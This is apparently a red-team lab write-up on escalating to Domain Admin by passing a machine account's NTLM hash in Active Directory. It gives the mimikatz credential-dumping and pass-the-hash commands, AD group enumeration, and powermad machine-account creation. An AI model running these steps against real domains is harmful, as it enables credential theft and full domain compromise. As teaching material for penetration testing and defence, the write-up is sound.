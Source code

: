 ```yaml
---
layout: post
title: "pass the hash with machine accounts"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of (ideally administrators/domain administrators).

This labs is based on an assumption that you have gained local administrator privileges on a workstation (machine), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-03-19.png>)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-22-59.png>)

or administrators group (not applicable to our lab, but showing as a sidenote):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-24-07.png>)

In AD, the highlighted part can be seen here:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-36-17.png>)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-29-17.png>)

Let's check that our current compromised user `ws01\mantvydas` (local admin on ws01) cannot access the domain controller DC01 just yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-47-10.png>)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-52-35.png>)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](<../../.gitbook/assets/Peek 2018-12-29 15-49.gif>)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](<../../.gitbook/assets/image (162).png>)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](<../../.gitbook/assets/image (164).png>)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](<../../.gitbook/assets/image (163).png>)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}
@spotheplanet
